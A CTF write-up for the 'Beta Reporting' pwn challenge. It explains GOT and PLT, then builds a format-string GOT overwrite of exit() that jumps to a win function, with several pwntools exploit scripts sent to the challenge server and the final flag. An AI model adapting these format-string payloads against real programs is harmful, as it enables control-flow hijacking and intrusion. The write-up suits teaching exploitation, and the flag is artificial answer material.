# Beta Reporting
**994 Points // 4 Solves**

## Notice

Before I start this writeup, I would like to apologize to my team for not being able to succeed in this challenge during the CTF itself :<

This writeup is probably not eligible but I am writing it anyway to document what I have learned.

## Preliminary Reconnaissance
Upon receiving the binary, our first instinct should be, as always, to open the binary in GDB and run `checksec`.



We can see that:

- There is a stack canary (no buffer overflow for us) 
- There is an NX-bit (No-eXecute, stack memory cannot be executed). 
- There is partial RELRO (RELocation Read-Only), allowing us to write to .got.plt (explained [later](#Wait,-what's-GOT-overwrite?)).

From my limited knowledge of pwn, this means that either of these attacks are likely:

- <u>ROP (requires ROP gadgets)
- ret2libc (My idea of libc attacks is very vague)
- GOT overwrite (technically .got.plt)</u>

Let's open IDA and see if any of these are our candidates...

### The Main Interface
##### menu()


- Notice that Option 4 is missing.

##### userchoice()


- Hmm, `magicfunction()`?

### Program Functions
##### makeareport()

- Basically,
    - Allocates 500 (0x1F4) bytes worth of space and reads your report (`comment`) into them.
    - Makes a reference to the `comment` under index 2*`reporttotalnum` of `reportlist`.
    - Someone would say something about a <u>heap exploit</u> but
        1. I'm pretty sure that can't happen cos no overflow.
        2. I know nothing about heap exploit.

##### viewreport()


- Basically,
    - Asks you for your `name` (256 bytes) and `printf()`s it out.
        - You can't directly <u>Format String Exploit</u> this because the format string (aka the first string in `printf()` containing "%d%s%c" and so on.) is already defined.
    - A mysterious `for` loop which writes something somewhere.
    - A `while` loop which asks you for `nptr` (i.e. your report number). In this while loop,
        1. `nptr` is converted into an integer `v1` (or barfs if you don't input something convertible to integer)
        2. If `v1 > 0`, prints the report with report number `v1`.
        3. I think you know what happens if `v1 <= 0`
    - `printf()` without format string means we can perform <u>Format String Exploit</u>. **Interesting.**

##### deletereport()


- Basically,
    - This function is literally useless. 
    - There is no point in finding out what it does.
    - Like, the `qmemcpy()` function is broken. WHY IS THE SOURCE "&"???

### Interesting Functions

##### magicfunction()

- This `magic` variable is not defined elsewhere. 
- When converted to hex, it decodes to "FLAG". **Interesting.**


##### unknownfunction()

- Basically, our `win()` function.
    - Combined with what we know from `magicfunction()`, this function `read()`s and `printf()`s the flag.

### ROP Gadgets

Prepare your eyes for the glorious vomit of ropper gadgets.



It is glorious. But there is no `int 0x80`. So **die**.

## Recon Summary & Finding the Exploit.
We gathered most of what we needed from IDA and ropper. Our findings show that:

- We have:
    - `NX-bit` -> no shellcode for us
    - `stack canary` -> no buffer overflow for us
    - `partial RELRO` -> can write to .got.plt
    - `win()` function -> we win if we jump to this function.

As it stands, we have 2 options:

- <u>ret2libc</u> (which I don't know how to perform)
- <u>GOT overwrite</u> with <u>Format String Exploit</u>

Therefore, we are going with the latter.

## Wait, what's GOT overwrite?
When I say GOT (global offset table), I actually mean 4 things:
- Global Offset Table (.got)
- Procedure Linkage Table (.plt)
- .got.plt
- .plt.got

Most ELF binaries that we see depend on some kind of function or another from the LIBC library. However, it's pretty stupid to ship the LIBC library with every simple binary we export.

So instead, binary programs store a table containing offsets to LIBC functions and external library functions. 

- LIBC function offsets are stored in the .got.plt section.
- Other library function offsets are in the .got section.

### But how do those offsets get there?

Before the start of the program, the Procedure Linkage Table performs look-ups in LIBC and libraries for all of these functions.

### So how do you overwrite a GOT table?

As long as you can jump to the offset where the GOT references are stored, you can write **basically anything** over them.

Any time these functions are referenced in the program, whatever you wrote over the original reference gets executed instead. (examples later)

There ARE, however, some caveats:
- `Partial RELRO` blocks writing to .got table. You can still write to the .got.plt table.
- `Full RELRO` blocks writing to, well, everything. **die.**

## Performing the Exploit

After determining what exploit to carry out, we have to, well, carry it out.

### Basic Structure

The basic structure of a <u>GOT overwrite</u> into `win()` function using a <u>Format String Exploit</u> is to ultimately send the line
```
<offset of any function in GOT table><win() function>
```
to the stack. In doing so, we overwrite the function in the GOT table with our own. 

**REMOTE CODE EXECUTION... kinda.**

For my victim of overwriting, I chose the `exit()` function since it would inevitably trigger when I exit the program.

### What do we need to call?

- To trigger the format string exploit, we must [write a report](#makeareport()), so that we can pass an arbitrary format string into `printf()`.
- We must naturally also [view the report](#viewreport()).
- Lastly, we need to call the [`magicfunction()`](#magicfunction()) to define the variable `magic` or the program will barf.

### Where to exploit?
An obvious answer is "wherever the undefined format string is":

(This was my final attempt during the actual CTF)
```python
from pwn import *
e = ELF('./beta_reporting')
print(hex(e.got['exit'])) #0x0804b028
payload=p32(0x0804b028) #1st part of the format string references the exit() entry in the .got.plt table.
payload+=p32(0x0804b029)
payload+=p32(0x0804b02a)
payload+=p32(0x0804b02b)
payload+=b'%8p%7$hhn' # 2nd part of the format string references 0x080488f7, the offset of the unknownfunction().
payload+=b'%4p%6$hhn'
payload+=b'%136p%5$hhn'
payload+=b'%247p%4$hhn' #<-- This approach assumes the input starts at the 4th position of the stack 
#r=process("./beta_reporting")
r=remote("yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg",30121)
r.sendlineafter("choice:","1")
print(r.recvuntil("report:"))
r.sendline(payload)
r.sendlineafter("choice:","2")
print(r.recvuntil("name:"))
r.sendline("A")
print(r.recvuntil("menu:"))
r.sendline("1")
print(r.recvuntil("menu:"))
r.sendline("0")
print(r.recvuntil("choice:"))
r.sendline("4")
print(r.recvuntil("choice:"))
r.sendline("5")
print(r.recvuntil("}"))
```

However, this was wrong because:
- I assumed the input began at the 4th position of the stack (as you will find out later, it does not.)
- I did not call the format string into the stack. No stack = no overwrite. 
    - The format I used (`%N%<offset>$hhn`) prints whitespaces until the output string is N characters long. Then, it prints the **total** number of **ALL** characters printed so far.
    - It requires you to put it in the stack, and not leave it in the cold void of the memory space, dying.
    - (I did not realise this until the end of the CTF. RIP 1 whole day of debugging and frustration.)

## And now, the parts I did not do in the CTF.
After the CTF, I was tipped off that `"you need two format strings in one printf() call"`. About 3~4 hours of struggling later, I got the exploit working.


### How do I put the format string into the stack? 

To be fair to myself, throughout the 1 day debugging process I was thinking about this question constantly.

This was, on hindsight, *ridiculously simple*.

I worked out through more debugging that:
- The `printf()` call that asks for your name in `viewreport()` actually writes whatever you want to the stack.

- Just insert your format string into that `printf()` call to trigger it with the next (`printf()` pointing to the report.)

### Where does the input begin in the stack?

With this code snippet, I would like to advocate for **RETURN TO MONKE**.
```python
from pwn import *
e = ELF('./beta_reporting')
r=process("./beta_reporting")
#r=remote("yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg",30121)
r.sendlineafter("choice:","1")
print(r.recvuntil("report:"))
r.sendline(" ".join(["%{}$p".format(i) for i in range(1,16)]))
r.sendlineafter("choice:","2")
print(r.recvuntil("name:"))
r.sendline("A"*20)
print(r.recvuntil("menu:"))
r.sendline("1")
r.interactive()
```

**MONKE BASH COMPUTER HAR HAR**

*ahem* So anyways, we end up with the fact that:
- The input starts at offset 8.

### Cool. So it works now?

After applying our fixes...
```python
from pwn import *
offset=8 #exploit offset starts at 8
e = ELF('./beta_reporting')
payload=p32(0x0804b028)
payload+=p32(0x0804b029)
payload+=p32(0x0804b02a)
payload+=p32(0x0804b02b)
payload2=b'%8p%11$hhn'
payload2+=b'%4p%10$hhn'
payload2=b'%136p%9$hhn'
payload2+=b'%247p%8$hhn'
#r=process("./beta_reporting")
r=remote("yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg",30121)
r.sendlineafter("choice:","1")
print(r.recvuntil("report:"))
#r.sendline(" ".join(["%{}$p".format(i) for i in range(1,16)]))
r.sendline(payload2)
r.sendlineafter("choice:","2")
print(r.recvuntil("name:"))
r.sendline(payload+payload2)
r.interactive()
```


**NOPE.**

Clearly I did nothing except apparently writing the next instruction `strcspn()` into the stack.

Or so I thought. In reality, I was actually writing into offset 11 and so on.

As to why this happens, I genuinely have no clue. Pls tell me my favorite admins :D

Also, I neglected that `$hhn` actually prints the number of characters printed so far.

### Ok so NOW it works.
Finally, after constant agony...
```python
from pwn import *

payload=p32(0x0804b028)
payload+=p32(0x0804b029)
payload2=b'%136p%12$hhn'
payload2+=b'%112p%11$hhn'

r=remote("yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg",30121)

r.sendlineafter("choice:","1")

print(r.recvuntil("report:"))
r.sendline(payload2)

r.sendlineafter("choice:","2")

print(r.recvuntil("name:"))
r.sendline(payload+payload2)

print(r.recvuntil("menu:"))
r.sendline("1")

print(r.recvuntil("menu:"))
r.sendline("0")

print(r.recvuntil("choice:"))
r.sendline("4")

print(r.recvuntil("choice:"))
r.sendline("5")

print(r.recvuntil("}"))
```

We get the flag!
`Flag: govtech-csg{c0v1d_5y5tem_d0wn!}`